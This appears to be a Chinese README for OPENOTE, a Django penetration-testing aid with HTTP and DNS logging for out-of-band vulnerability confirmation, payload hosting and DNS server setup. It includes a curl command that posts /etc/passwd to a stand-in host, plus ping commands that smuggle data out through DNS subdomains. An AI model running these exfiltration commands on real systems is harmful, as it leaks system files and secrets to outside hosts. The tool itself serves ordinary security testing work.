





# OPENOTE

OPENOTE是一款渗透测试辅助工具，集成了一些渗透测试常用的功能，目前包括HTTP记录、DNS记录、文件托管、XSS平台

* HTTP Log：无回显的场景下通过记录HTTP请求确认漏洞
* DNS Log：无回显场景下通过DNS信道外带数据
* File Service：对标Paste Bin，但提供自定义Content-Type的接口，便于托管payload
* XSS平台：模块化配置XSS Payload，辅助XSS测试

## 功能演示

目前开发了两个功能，HTTP Log和DNS Log，都是需求比较大的基础能力。未来会继续开发其他功能，请star并持续关注

在以下说明中，以域名`example.com`为例

### 登陆认证

支持基本登陆认证功能，保障数据安全



### HTTP Log

核心功能之一是HTTP Log，所有对平台的**不存在的**路由请求均会被记录下来

以下路由地址被平台保留，不会被记录

* /
* /http
* /http/\<int\>
* /http/down/\<int\>
* /dns
* /file
* /xss
* /login
* /logout
* /delete/dns



在`home/data/black_list.py`中可以配置黑名单，黑名单中的url同样不会被记录。默认添加了`/favicon.ico`和`/robots.txt`

点击每一条记录，可以看到完整的HTTP Header和HTTP Body数据



一个小技巧是可以用`curl example.com/not_exsist -X POST -F "f=@/etc/passwd"`来发送文件到平台。二进制数据也可以被直接Down下来，默认以二进制形式存储数据，因此在下载之后不需要其他操作即可拿到完整的二进制数据

### DNS Log

此外该平台提供DNS Log功能。假设当前的域名为`dns.example.com`

本模块的功能主要是修改了[vtest](https://github.com/opensec-cn/vtest/)和[dnslog](https://github.com/BugScanTeam/DNSLog)两个项目的代码，并对Python3进行适配



#### 基础解析

```bash
ping secret_message.dns.example.com
```

此时在平台上能够收到`secret_message`这一信息，解析结果默认为`1.1.1.1`

#### 进阶解析

```bash
ping 123.123.123.123.dns.example.com
```

当域名前是IP地址时，会将这个地址解析为输入的IP地址`123.123.123.123`

```bash
ping 111.111.111.111.222.222.222.222.dns.example.com
```

此时会按顺序依次解析

```
111.111.111.111.222.222.222.222.dns.example.com ===> 111.111.111.111
111.111.111.111.222.222.222.222.dns.example.com ===> 222.222.222.222
111.111.111.111.222.222.222.222.dns.example.com ===> 111.111.111.111
111.111.111.111.222.222.222.222.dns.example.com ===> 222.222.222.222
...
```

## 如何安装

注意⚠️：
1. 本应用使用Django开发，在安装时推荐使用虚拟环境，避免引起Python的依赖关系紊乱
2. 本应用仅支持Python3（It's 9102 now.）

### 安装虚拟环境

安装virtualenv并创建虚拟python环境，激活
```bash
pip3 install virtualenv
virtualenv openote_env
source openote_env/bin/activate
```
激活后安装依赖库

```bash
pip3 install -r requirements.txt
```

### 初始化数据库

默认使用sqlite3作为数据库，便于携带。使用以下命令进行初始化

```bash
python3 manage.py migrate
```

### 创建用户

使用以下命令创建一个可以登陆的用户：
```bash
python3 manage.py createuser -u username -p
```
如果忘记密码，可以在命令行中重置：
```bash
python3 manage.py reset -u username -p
```

### 启动

```bash
python3 manage.py runserver 0.0.0.0:8000
```

### 设置DNS服务器

总共需要两个域名。例如我们拥有`tom.com`和`jerry.com`两个域名，最终想要的DNS服务器解析的域名是`dns.jerry.com`，我们控制的服务器IP为`1.1.1.1`

设置步骤：

1. 在`tom.com`中添加`A记录`，将`ns1.tom.com`指向`1.1.1.1`
2. 在`jerry.com`中添加`NS记录`，指定`dns.jerry.com`域名的NS服务器是`ns1.tom.com`

这样一来我们对`*.dns.jerry.com`的查询都会在`dns.jerry.com`处查询，而它指定了域名服务器`ns1.tom.com`，域名服务器的IP又是我们控制的服务器`1.1.1.1`。这样一来`*.dns.jerry.com`的查询都会走我们自己部署的DNS服务器，即可获取记录



设置完毕后，需要在`openote/settings.py`中设置以下内容：

```python
ROOT_DOMAIN = "dns.jerry.com"
LOCAL_IP = "1.1.1.1"
```

测试是否部署成功：

```bash
ping test.dns.jerry.com
```

如果解析结果为`1.1.1.1`（默认解析结果都是1.1.1.1），且能够在log中看到解析记录，则说明部署成功

### 启动服务

最终设置好之后，即可启动

```bash
python3 manage.py 0.0.0.0:8000
```

Enjoy

## 后续计划

1. file service
2. xss platform

如果有好的创意，或者发现bug，欢迎在issue中提交，也欢迎大家共同参与开发工作🍺